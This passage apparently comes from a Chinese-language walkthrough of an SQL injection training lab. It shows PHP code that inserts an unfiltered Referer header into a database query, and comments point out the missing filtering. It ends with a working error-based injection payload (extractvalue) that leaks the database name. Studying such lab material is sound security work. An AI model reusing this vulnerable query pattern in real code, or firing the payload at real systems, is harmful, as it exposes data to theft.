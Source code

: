 ```php

            fclose($fp);


            $sql = "SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
            $result1 = mysql_query($sql);
            $row1 = mysql_fetch_array($result1);
            # 只有先登录成功才能触法注入点
            if ($row1) {
                echo '<font color= "#FFFF00" font size = 3 >';
                # 可以看到并没有对变量 $uagent 做任何的安全过滤
                $insert = "INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
                mysql_query($insert);
                //echo 'Your IP ADDRESS is: ' .$IP;
                echo "</font>";
                //echo "<br>";
                echo '<font color= "#0000ff" font size = 3 >';
                echo 'Your Referer is: ' . $uagent;
                echo "</font>";
                echo "<br>";
                print_r(mysql_error());
                echo "<br><br>";
                echo '<img src="../images/flag.jpg" />';
                echo "<br>";

            } else {
                echo '<font color= "#0000ff" font size="3">';
                //echo "Try again looser";
                print_r(mysql_error());
                echo "</br>";
                echo "</br>";
                echo '<img src="../images/slap.jpg"  />';
                echo "</font>";
            }

        }

        ?>


    </font>
</div>
</body>
</html>
```

#### 本地数据库尝试

```
mysql> INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('1' and extractvalue(1,concat(0x7e, (select database()))), '2');#', '2');
ERROR 1105 (HY000): XPATH syntax error: '~security'
```
